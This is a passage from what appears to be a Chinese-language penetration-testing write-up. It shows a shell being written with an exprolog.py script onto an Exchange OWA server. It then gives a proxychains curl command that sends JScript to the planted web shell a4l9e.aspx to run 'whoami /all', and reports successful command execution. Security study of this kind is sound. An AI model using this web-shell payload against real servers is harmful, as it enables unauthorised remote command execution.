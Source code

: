 这样也可以用 exprolog.py 写入 shell

[![](assets/1707954377-9073ebd41958fd348712d97d277c748c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204173811-1ca62000-c341-1.png)

[![](assets/1707954377-1936e7e91755fe44f1ed5a8aaf1d23c3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204173815-1f392c72-c341-1.png)

可以看到 shell 位置

```plain
proxychains curl --request POST --url https://172.22.3.9/owa/auth/a4l9e.aspx --header 'Content-Type: application/x-www-form-urlencoded' --data 'request=Response.Write(new ActiveXObject("WScript.Shell").exec("whoami /all").stdout.readall())' -k
```

[![](assets/1707954377-44351db4498af138ea6c0b802c3a72fe.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204173821-228f6b20-c341-1.png)

可以看到成功命令执行
